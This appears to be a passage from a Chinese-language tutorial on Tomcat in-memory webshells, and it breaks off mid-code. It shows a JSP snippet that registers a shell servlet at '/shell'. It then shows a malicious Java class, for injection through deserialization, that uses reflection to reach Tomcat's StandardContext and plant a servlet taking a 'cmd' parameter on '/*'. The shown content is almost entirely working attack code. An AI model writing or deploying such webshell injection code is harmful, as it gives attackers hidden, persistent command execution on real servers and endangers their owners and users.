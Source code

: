 ```java
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

### 反序列化写入
恶意类
```java
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationServletRegistration;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * 使用 Thread 注入 Tomcat Servlet 型内存马
 */
public class MSTomcatFromThread implements Servlet {

    private final String cmdParamName = "cmd";
    private final static String pattern = "/*";

    static {
        try {
            String servletName = String.valueOf(System.nanoTime());

            // 获取 standardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);

                standardContext = (StandardContext) field2.get(root);
            }


            if (standardContext.findChild(servletName) == null) {
```